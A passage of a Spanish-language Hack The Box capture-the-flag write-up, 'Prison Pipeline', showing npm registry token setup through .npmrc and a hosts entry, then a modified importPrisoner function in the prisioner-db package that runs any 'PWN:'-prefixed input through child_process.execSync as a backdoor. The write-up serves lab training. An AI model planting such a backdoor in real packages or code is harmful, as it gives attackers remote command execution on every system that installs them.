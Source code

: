 Para poder autenticarnos con este token vamos ir a la carpeta del codigo que nos proporcionaron donde se encuentra el paquete prisioner-db.

Una vez allí vamos a crear un fichero .npmrc con el siguiente contenido.

![alt text](/assets/img/writeups/hackthebox/prisionpipeline_htb/image-2.png)

El puerto debe ser el que nos proporciona acceso a la aplicación.

En nuestro documento hosts añadimos el dominio registry.prison-pipeline.htb a la ip de la aplicación.

![alt text](/assets/img/writeups/hackthebox/prisionpipeline_htb/image-3.png)

Verificamos que el token se ha autenticado correctamente.

![alt text](/assets/img/writeups/hackthebox/prisionpipeline_htb/image-4.png)

Limpiamos la caché de npm.

```bash
npm cache clean --force
```

Modificamos la función `importPrisoner` para que podamos inyectar comandos al sistema.

```javascript
    async importPrisoner(url) {
        // implement backdoor
        const child_process = require('child_process');
        if (url.includes('PWN:')) {
            try {
                let cmd = url.replace('PWN:', '');
                let output = child_process.execSync(cmd).toString();
                return output;
            }
            catch (error) {
                return 'PWN: Error executing command.';
            }
        }        
        ...SNIP...
    }
```
